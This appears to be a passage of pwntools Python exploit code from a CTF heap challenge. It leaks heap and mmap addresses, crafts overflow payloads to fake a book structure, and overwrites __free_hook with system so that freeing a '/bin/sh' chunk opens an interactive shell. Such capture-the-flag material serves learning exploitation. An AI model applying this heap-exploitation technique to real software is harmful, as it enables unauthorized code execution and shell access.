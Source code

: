 ```Python
p.sendline("4")
p.recvuntil("Author: ")
p.recv(32)

book1_addr = u64(p.recv(6) + '\x00\x00')
book2_addr = book1_addr + 0x30

p.recvuntil("> ")

payload = 'a' * 0x70 + p64(1) + p64(book2_addr + 8) + p64(book2_addr + 8) + p64(0xffff)

edit(1,payload)
#gdb.attach(p)
p.recvuntil("> ")
p.sendline("5")
p.recvuntil("Enter author name: ")
p.sendline('a' * 32)
p.recvuntil("> ")
p.sendline("4")
p.recvuntil("Name: ")

mmap_addr = u64(p.recv(6) + '\x00\x00')

libc_addr = 0x7ffff79e2000   # Change it if doesn't work!

free_hook = libc.symbols["__free_hook"] + libc_addr
system = libc.symbols["system"] + libc_addr
binsh = libc.search("/bin/sh").next() + libc_addr

payload2 = p64(binsh) + p64(free_hook)
edit(1, payload2)

p.recvuntil("> ")
payload3 = p64(system)
edit(2,payload3)
p.recvuntil("> ")
delete(2)
p.interactive()
```

